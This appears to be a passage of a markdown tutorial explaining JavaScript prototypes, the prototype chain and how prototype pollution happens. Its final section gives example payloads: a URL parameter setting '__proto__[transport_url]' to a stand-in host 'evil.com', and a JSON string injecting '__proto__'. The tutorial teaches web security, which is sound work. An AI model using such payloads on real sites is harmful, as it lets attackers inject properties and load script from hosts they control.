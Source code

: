 * `String.prototype`
* `Array.prototype`
* `Number.prototype`

---

## 🧭 How Inheritance Works

If a property is not found on an object, JavaScript looks up its prototype chain:

<img width="937" height="578" alt="image" src="https://github.com/user-attachments/assets/cfc68915-c0d1-41b4-814e-7f0cbcf0aa84" />


```js
existingObject = { propertyA: 'A' }
myObject = Object.create(existingObject);

console.log(myObject.propertyA); // → 'A'
```

---

## 🛠 Accessing & Modifying Prototypes

Every object has a special property: `__proto__`.

```js
console.log(user.__proto__); // → Object.prototype
```

Modifying the prototype:

```js
String.prototype.removeWhitespace = function() {
  return this.replace(/^\s+|\s+$/g, '');
};

"  test  ".removeWhitespace(); // → "test"
```

---

## 💣 How Does Prototype Pollution Happen?

Prototype pollution often occurs during deep merge operations where unsanitized input is merged into an object:

```js
// URL
https://site.com/?__proto__[transport_url]=//evil.com

// JSON
JSON.parse('{"__proto__": {"evilProperty": "payload"}}');
```

```js
objectLiteral.hasOwnProperty('__proto__'); // false
objectFromJson.hasOwnProperty('__proto__'); // true
```

---